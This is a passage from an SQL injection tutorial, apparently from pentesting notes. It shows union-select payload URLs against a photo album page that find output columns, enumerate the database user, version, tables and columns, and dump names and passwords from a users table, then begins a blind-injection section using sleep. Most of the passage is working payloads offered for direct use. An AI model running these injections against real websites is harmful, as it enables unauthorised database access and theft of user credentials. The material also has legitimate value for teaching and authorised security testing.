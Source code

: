 To find out which columns are being outputted we can use the **union select** command. So we do the command like this

```
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4 - Start enumerating the database

Now we can use that field to start outputing data. For example if columns number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine \(mysql, mssql, postgres\).

```
# Get username of the sql-user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a only servers to create a delimitor between name and password

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,
password),6,7,8,9 FROM users
```

### Blind sql-injection

We say that it is blind because we do not have access to the error log. This make the whole process a lot more complicated. But it is of course still possible to exploit.

#### Using sleep

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

```
http://example.com/photoalbum.php?id=1-sleep(4)
```
